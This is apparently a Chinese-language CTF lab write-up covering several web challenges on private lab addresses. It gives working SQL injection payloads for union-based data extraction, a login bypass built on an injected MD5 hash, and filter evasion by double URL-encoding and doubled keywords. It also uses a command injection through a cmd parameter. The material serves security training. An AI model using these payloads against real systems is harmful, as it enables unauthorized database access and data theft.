 # http://192.168.100.40:10000/

<img src="./assets/image-20240901170852913.png" alt="image-20240901170852913" style="zoom:50%;" />

<img src="./assets/image-20240901171115511.png" alt="image-20240901171115511" style="zoom:50%;" />

```sql
//获取数据库名-->ctftraining
-200'union select database() # 
```

<img src="./assets/image-20240901171208200.png" alt="image-20240901171208200" style="zoom:50%;" />

```sql
//获取表名-->flag,news,users
-200'union select group_concat(table_name) from information_schema.tables where table_schema=database() #
```

<img src="./assets/image-20240901171449462.png" alt="image-20240901171449462" style="zoom:50%;" />

<img src="./assets/image-20240901171531527.png" alt="image-20240901171531527" style="zoom:50%;" />

```sql
//获取字段名-->
-200'union select * from flag#
```

<img src="./assets/image-20240901172156181.png" alt="image-20240901172156181" style="zoom:50%;" />

<img src="./assets/image-20240901172237974.png" alt="image-20240901172237974" style="zoom:50%;" />

```cmd
//最终的flag
ctftraining{0cTob3r_1s_B34ut1ful}
```

# http://192.168.100.40:10001/

![image-20240901172518016](./assets/image-20240901172518016.png)

```sql
http://192.168.100.40:10001/start/vul.php?cmd=ls%20%3Etomato-sh.txt
```

![image-20240901172609179](./assets/image-20240901172609179.png)

```sql
//访问获取key
http://192.168.100.40:10001/start/tomato-sh.txt
```

![image-20240901172703957](./assets/image-20240901172703957.png)

# .http://192.168.100.40:10002/

<img src="./assets/image-20240901172928109.png" alt="image-20240901172928109" style="zoom:50%;" />

```cmd
//先随便登录,查看源码
1.发现有两个需要传的POST参数,name对应用户名,password对应密码
2.还有个md5函数对密码进行加密
3.登录时判断密码是否和加密的md5密码相等,如果相等则输出flag
```

![image-20240901173417570](./assets/image-20240901173417570.png)

![image-20240901173437516](./assets/image-20240901173437516.png)

```
//到这里说明思路大致正确的,sql语句报错了
//找到md5在线加解密网站,随便输入一个数字:666
//加密后:fae0b27c451c728867a567e8c1bb4e53 -->(32位小写)
```

![image-20240901173934520](./assets/image-20240901173934520.png)

```sql
//这里需要注意,admin和md5加密部分需要用''引号
//方法1:使用bp抓包
name=1'union select 1,'admin','fae0b27c451c728867a567e8c1bb4e53' #&pw=666 

//方法2:直接登录
username: 1'union select 1,'admin','fae0b27c451c728867a567e8c1bb4e53' #
password: 666
```

![image-20240901174939667](./assets/image-20240901174939667.png)

# http://192.168.100.230/sqlexam/examine1.php

<img src="./assets/image-20240901175057801.png" alt="image-20240901175057801" style="zoom:50%;" />

```
//根据代码,可以知道union和select不能同时使用所以需要使用%0a间隔开
//'也是无法使用,需要用%2527来替换
id=-1%2527union%0aselect 1,2,3 #
```

<img src="./assets/image-20240901175929802.png" alt="image-20240901175929802" style="zoom:50%;" />

### `查看数据库名`

```sql
//传递post参数
id=-1%2527union%0aselect 1,database(),3 #
```

![image-20240901180050884](./assets/image-20240901180050884.png)



### `查看表名`

```sql
id=-1%2527union%0aselect 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 #
```

![image-20240901180831061](./assets/image-20240901180831061.png)

### `查看flag表的字段`

```sql
//这里指定表的时候需要注意单引号也需要变成%2527使用
id=-1%2527union%0aselect 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=%2527flag%2527),3 #
```

![image-20240901181111497](./assets/image-20240901181111497.png)

### `获取最终的flag`

```sql
id=-1%2527union%0aselect 1,(select group_concat(Id,flag) from test1.flag),3 #
```

![image-20240901181341139](./assets/image-20240901181341139.png)

# http://192.168.100.230/sqlexam/examine2.php

### `查看回显点`

```sql
id=-1'uniunionon selselectect 1,2,3 #
```

![image-20240901181706818](./assets/image-20240901181706818.png)

### `查看数据库名`

```
id=-1'uniunionon selselectect 1,database(),3 #
```

![image-20240901181736720](./assets/image-20240901181736720.png)

### `查看表名`

```sql
id=-1'uniunionon selselectect 1,(selselectect group_concat(table_name) ffromrom infoorrmation_schema.tables where table_schema=database()),3 #
```

![image-20240901184350207](./assets/image-20240901184350207.png)

### `获取flag表字段`

```SQL
id=-1'uniunionon selselectect 1,(selselectect group_concat(column_name) ffromrom infoorrmation_schema.columns where table_name='flag'),3 #
```

![image-20240901185253717](./assets/image-20240901185253717.png)

### `获取flag`

```sql
id=-1'uniunionon selselectect 1,(selselectect group_concat(flag,0x3a,Id) ffromrom test2.flag),3 #
```

![image-20240901185543879](./assets/image-20240901185543879.png)